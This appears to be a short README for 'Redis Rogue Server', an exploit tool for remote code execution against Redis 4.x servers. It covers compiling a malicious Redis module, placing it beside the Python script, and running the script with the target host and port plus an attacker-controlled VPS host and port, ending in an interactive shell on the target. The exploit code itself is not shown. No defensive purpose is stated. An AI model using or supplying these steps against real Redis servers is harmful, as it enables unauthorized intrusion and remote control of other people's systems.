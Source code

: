 # Redis Rogue Server

A exploit for Redis 4.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py`.

Run the rogue server:

```
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!

